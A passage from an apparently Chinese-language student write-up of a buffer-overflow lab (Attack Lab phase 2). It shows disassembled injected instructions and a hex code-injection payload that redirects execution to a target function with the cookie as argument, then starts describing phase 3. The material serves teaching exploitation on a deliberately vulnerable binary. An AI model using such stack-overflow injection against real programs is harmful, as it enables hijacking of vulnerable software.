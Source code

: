 以下是反汇编后的代码：
```bash
# 该内容存放在dis2.s文件中
ass2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```

以下是根据汇编代码以及其他信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs2文件中 */
68 ec 17 40 00 90 90 90 /* pushq $0x4017ec */ /* the addr of touch2 */
48 c7 c7 fa 97 b9 59 90 /* mov $0x59b997fa,%rdi */
c3 00 00 00 00 00 00 00 /* retq */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 0a /* 0x5561dc78, the addr of $rsp which should be
written */
```

以下通过第二关的界面：
![pass2](image/2021-07-13-16-17-50.png)

##### 3.23 第三关

###### 3.231 任务要求

第三关的目标是让我们使用CI攻击，使程序返回到`touch3`函数，并且要将cookie的16进制串转换为字符串形式(比如数字`1`转为字符`'1'`，数字`b`转换为字符`'b'`等)，再将该字符串作为参数传递到`touch3`函数中。

其中`touch3`函数会调用一个`hexmatch`函数来判断转换的字符串形式是否正确，且该函数会分配一个很大的缓冲区来对我们的操作进行限制。

以下是题目所给的touch3和hexmatch函数的c语言代码：
